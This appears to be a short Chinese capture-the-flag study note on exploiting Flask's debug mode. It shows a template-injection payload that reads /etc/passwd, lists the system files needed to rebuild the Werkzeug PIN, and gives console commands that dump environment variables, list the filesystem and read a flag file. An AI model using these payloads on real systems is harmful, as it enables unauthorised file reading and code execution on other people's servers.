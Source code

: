 Flask模板注入中debug模式下pin码的获取和利用:
## **什么是pin码**
pin码是flask在开启debug模式下，进行代码调试模式所需的进入密码，需要正确的PIN码才能进入调试模式，可以理解为自带的webshell。
有了pin，然后报错或访问/console进，点击一个条列的右边有一个终端按钮，点击进入控制台rce


729-315-842


## **pin码生成要六要素**
通常任意文件读取ssti：
```
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}
```
1.username在可以任意文件读的条件下读/etc/passwd进行猜测
2.modname 默认 flask.app
3.appname 默认Flask
4.moddir flask库下app.py的绝对路径,可以通过报错拿到,如传参的时候给个不存在的变量
5.uuidnode mac地址的十进制
```
任意文件读/sys/class/net/ethe/address或具体ls查看
/sys/class/net/eth0/address
/sys/class/net/ens33/address 去掉冒号后int("c2f233c6de75",16)转换为十进制
```
6.machine_id 机器码 
```
machine-id 基于不同版本有不同的算法

在werkzeug 1.0.0rc1之前为:
docker环境: /proc/self/cgroup里面…/docker/后面的内容
非docker: /etc/machine-id或/proc/sys/kernel/random/boot_id的内容

在werkzeug 1.0.0rc1及之后为:
/etc/machine-id或/proc/sys/kernel/random/boot_id
+
/proc/self/cgroup
生成pin码也有md5和sha1算法两种
```
然后通过程序生成pin

^
## **控制台利用**
有了pin，然后报错或访问/console进，点击一个条列的右边有一个终端按钮，点击进入控制台rce
```
import os
os.popen('env').read()

os.popen("ls -l /").read()
os.popen("cat /this_is_the_flag.txt").read()


__import__('os').popen("env").read()
```



![](.topwrite/assets/image_1728027706412.png)
^
<https://blog.csdn.net/rfrder/article/details/110240245>

<https://www.cnblogs.com/MisakaYuii-Z/p/12407760.html>